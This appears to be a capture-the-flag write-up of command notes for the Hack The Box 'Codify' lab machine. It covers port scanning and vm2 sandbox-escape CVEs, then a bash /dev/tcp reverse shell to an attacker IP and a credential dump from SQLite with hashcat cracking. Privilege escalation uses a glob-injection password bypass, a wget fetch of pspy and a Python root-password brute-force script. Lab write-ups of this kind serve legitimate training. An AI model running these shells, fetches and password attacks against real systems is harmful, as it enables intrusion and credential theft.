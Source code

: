 # 💎 HTB: Codify - Command Notes

## 🔍 Recon

```bash
nmap -p- --min-rate 10000 10.10.11.239                # Fast full TCP port scan
nmap -p 22,80,3000 -sCV 10.10.11.239                  # Version & script scan on identified ports
head -1 /etc/hosts                                    # Confirm domain mapping to codify.htb
```

---

## 🧪 CVE-Based Exploitation

**Relevant CVEs for vm2 (v3.9.16):**

- [CVE-2023-32314](https://github.com/p4p1/vm2-cve-2023-32314)
- [CVE-2023-30547](https://github.com/p4p1/vm2-cve-2023-30547)
- [CVE-2023-37466](https://github.com/p4p1/vm2-cve-2023-37466)
- [CVE-2023-37903](https://github.com/p4p1/vm2-cve-2023-37903)

> Used payloads from these to gain command execution via sandbox escape.

---

## 🐚 Reverse Shell Access

```bash
# Listener on attacker box
nc -lvnp 443

# Payload sent via web shell
bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"

# Upgrade reverse shell
script /dev/null -c bash
stty raw -echo; fg
```

> Reverse shell lands as `svc` user.

---

## 🧼 Local Enumeration

```bash
ls -la                                        # Basic file listing
cd /home/joshua/                              # Access check for next user
ls /var/www                                   # Discover web app directories
ls editor/ contact/                           # Review contents of Node.js apps
cat index.js | grep 'app\.'                   # View all express routes in contact app
```

---

## 🧩 SQLite Enumeration

```bash
sqlite3 tickets.db                            # Open the database
.tables                                       # View all tables
.schema users                                 # Get table structure
select * from users;                          # Dump credentials
```

---

## 🔓 Cracking the User Hash

```bash
# Save hash
echo '$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2' > joshua.hash

# Crack with hashcat (bcrypt mode 3200)
hashcat -m 3200 joshua.hash rockyou.txt
```

> Cracked to: `spongebob1`

---

## 🔑 Privilege Escalation to Joshua

```bash
su - joshua                                    # Use cracked password
sshpass -p spongebob1 ssh joshua@codify.htb    # Alternative SSH access
```

---

## 🔧 Privilege Escalation to Root

### 💡 Script Abused: `/opt/scripts/mysql-backup.sh`

```bash
sudo -l                                        # View sudo privileges
sudo /opt/scripts/mysql-backup.sh             # Run vulnerable backup script
```

#### 🧨 Bypass Password Check

```bash
echo "*" | sudo /opt/scripts/mysql-backup.sh  # Bypass using bash glob injection
```

> Works because `[[ $USER_PASS == $DB_PASS ]]` lacks quotes.

---

#### 🔭 Leak Root Password via Process Watch

```bash
# On attacker box
python -m http.server 80 -d /opt/

# On target
wget http://10.10.14.6/pspy64
chmod +x pspy64
./pspy64
```

> Watch for `-p<password>` appearing in `mysql` or `mysqldump` command.

---

#### 🧠 Brute-Force Root Password with Python

```python
# leak_password.py
import subprocess, string
leaked_password = ""
while True:
    for c in string.printable[:-5]:
        if c in '*\\%': continue
        print(f"\r{leaked_password}{c}", end="", flush=True)
        try:
            subprocess.run(f"echo '{leaked_password}{c}*' | sudo /opt/scripts/mysql-backup.sh", shell=True, timeout=0.3)
        except subprocess.TimeoutExpired:
            leaked_password += c
            break
    else: break
print(f"\nPassword: {leaked_password}")
```

---

## 🧙‍♂️ Root Access

```bash
su -                                           # With leaked/brute-forced password
cat /root/root.txt
```